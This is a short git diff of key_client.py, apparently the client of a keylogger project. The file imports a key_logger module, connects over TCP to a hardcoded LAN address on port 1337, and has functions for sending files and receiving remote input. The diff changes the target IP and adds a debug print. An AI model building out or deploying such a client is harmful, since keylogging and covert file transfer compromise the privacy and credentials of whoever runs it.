

client_changes

diff --git a/key_client.py b/key_client.py
@@ -10,7 +10,8 @@ import key_logger
 path = ""
 def main():
     soc = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
-    host = '192.168.43.85'
+    #host = '192.168.43.85'
+    host = '192.168.0.101'
     port = 1337
 
     try:
@@ -76,6 +77,7 @@ def send_file(fname, c):
 
 def receive_input(connection, max_buffer_size):
     client_input = connection.recv(max_buffer_size)
+    print(client_input)
     if(client_input):
         decoded_input = client_input.decode("utf8")
         return decoded_input
